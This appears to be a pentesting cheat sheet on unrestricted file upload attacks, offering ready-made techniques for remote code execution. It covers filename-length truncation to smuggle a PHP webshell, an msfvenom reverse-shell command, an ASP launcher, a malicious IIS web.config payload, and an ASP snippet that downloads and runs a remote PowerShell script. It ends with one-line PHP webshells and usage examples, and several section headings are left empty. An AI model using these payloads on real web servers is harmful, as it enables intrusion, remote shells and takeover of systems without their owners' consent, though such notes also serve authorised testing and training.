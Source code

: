 ```yaml
---
title: Unrestricted File Upload
category: Web
order: 6
---
```


Different ways to upload files and get RCE.

# Identifies restrictions

## Extension

Shortening the size (falafel.htb):

Linux maximum 255 chars

```
touch $(python3 -c "print('A'*251+'.png')")
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'
```

Search the correct offset and upload again:

```
echo '<?php system($_GET["cmd"]);?>' > $(python3 -c 'print("A"*(236-4)+".php.png")')
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'
```

## Size

## Name

## Magic Number

## Content

# ASP

First we need to generate the reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o rev.exe
```

Finally upload the `rev.asp` and `rev.exe` files to get a connection shell back.

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\rev.exe",0,True)
%>
```

# .config RCE (IIS)

Uploading a `web.config` file to execute asp commands.

```
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Response.write(1+1)
%>
```

If this works we can execute a reverse shell.

```
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://<ip-addr>/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
strOutput = objShellExec.StdOut.ReadAll()
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```
# PHP

The are some typicall PHP webshells, but some are detected by AV. Here are some usefull ones.

* https://github.com/bayufedra/Tiny-PHP-Webshell

```
<?=`$_GET[0]`?>

Usage :
  http://target.com/path/to/shell.php?0=command
```

```
<?=`$_POST[0]`?>

Usage :
  curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

